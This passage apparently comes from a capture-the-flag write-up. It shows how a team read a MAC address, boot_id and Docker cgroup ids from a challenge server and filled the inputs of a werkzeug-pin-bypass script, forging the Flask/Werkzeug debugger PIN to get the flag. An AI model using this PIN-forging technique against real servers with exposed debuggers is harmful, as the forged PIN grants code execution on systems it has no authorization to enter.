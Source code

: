 
/sys/class/net/eth0/address

```
>>> "".join("02:42:ac:11:00:02".split(":"))
'0242ac110002'
>>> print(0x0242ac110002)
2485377892354
```

/proc/sys/kernel/random/boot_id

```
d2ad6c68-ebf1-4090-85ff-60e0b7c2fb86
```

/proc/self/cgroup

```
12:blkio:/docker/97cb5dd0fb03213072481c8a621847f1a310238d2db0de37ac81c8116a509c3a
11:cpuset:/docker/97cb5dd0fb03213072481c8a621847f1a310238d2db0de37ac81c8116a509c3a
10:freezer:/docker/97cb5dd0fb03213072481c8a621847f1a310238d2db0de37ac81c8116a509c3a
```

machine id => 

```
d2ad6c68-ebf1-4090-85ff-60e0b7c2fb8697cb5dd0fb03213072481c8a621847f1a310238d2db0de37ac81c8116a509c3a
```

/etc/machine_id can be ignored as this file doesn't exist on our challenge server.

```python
probably_public_bits = [
    'root',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.11/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485377892354',# str(uuid.getnode()),  /sys/class/net/ens33/address 
    # Machine Id: /etc/machine-id + /proc/sys/kernel/random/boot_id + /proc/self/cgroup
    'd2ad6c68-ebf1-4090-85ff-60e0b7c2fb8697cb5dd0fb03213072481c8a621847f1a310238d2db0de37ac81c8116a509c3a'
]
```

Now run the script werkzeug-pin-bypass.py and you will have the pin


You can see here that they are indeed same :)
![image](https://user-images.githubusercontent.com/31372554/254167983-a0a1401b-cf80-4e17-b17f-94f8f1cb1635.png)


0xbla did all this scripting work in no time so thanks to him we were able to complete this challenge in no time.


And at last we had the flag

![image](https://github.com/Sudistark/CTF-Writeups/assets/31372554/02eb4516-ef05-41ea-b9fc-2e36755ddd85)


